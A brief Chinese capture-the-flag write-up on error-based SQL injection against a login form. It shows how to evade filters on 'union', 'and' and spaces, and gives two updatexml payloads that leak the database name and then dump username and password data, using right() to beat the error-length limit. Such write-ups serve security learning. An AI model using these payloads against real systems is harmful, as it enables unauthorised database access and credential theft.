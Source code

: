 知识点：

1.报错注入

2.and替换（^),空格替换（（））

3.updatexml报错长度限制，right()绕过



参考：

https://xz.aliyun.com/t/5505



1.测试过滤

![](images/5460D9503C7A4D0B99BAA80EC5DC62E1clipboard.png)

union和union/**/sekect被过滤了，不能使用联结查询



2.存在报错，updatexml没有被过滤，可以考虑报错注入

但是and被过滤了，这里可以使用(^)绕过

空格也被过滤了，可以使用（）绕过

payload:

```javascript
username=admin&password=pass'^updatexml(1,concat(0x7e,(select(database()))
,0x7e),1)%23
```



![](images/5B62E7AEEB2C40AB8A39B639FB1D8EDCclipboard.png)





3.因为和前面几个sql一样都是极客大赛的，直接读flag

因为报错信息最多为30位，并不能完整的爆出flag,所以这里使用right()函数

paylaod:

```javascript
?username=admin&password=pass'^updatexml(1,concat(0x7e,right((select(SELECT(
group_concat(username,password))from(H4rDsq1))),50),0x7e),1)%23
```



调整，right()函数，起始值即可读出完整flag

